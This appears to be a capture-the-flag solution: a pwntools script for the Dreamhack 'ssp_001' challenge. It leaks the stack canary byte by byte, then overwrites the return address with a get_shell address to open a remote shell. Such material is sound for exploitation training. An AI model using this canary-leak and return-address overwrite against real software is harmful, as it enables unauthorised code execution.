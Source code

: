 ```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

#r = process('./ssp_001')
r = remote('host1.dreamhack.games', 23963)

get_shell_addr = 0x80486b9
canary = 0

def get_canary(idx):
    r.sendlineafter(b'> ', b'P')
    r.sendlineafter(b': ', idx)
    r.recvuntil(b': ')
    return int(r.recvn(2), 16)

canary += get_canary(b'129') << 8
canary += get_canary(b'130') << 16
canary += get_canary(b'131') << 24

payload = b'A' * 0x40
payload += p32(canary)
payload += b'B' * 0x8
payload += p32(get_shell_addr)

r.sendlineafter(b'> ', b'E')
r.sendlineafter(b': ', b'80')
r.sendafter(b': ', payload)

r.interactive()
```
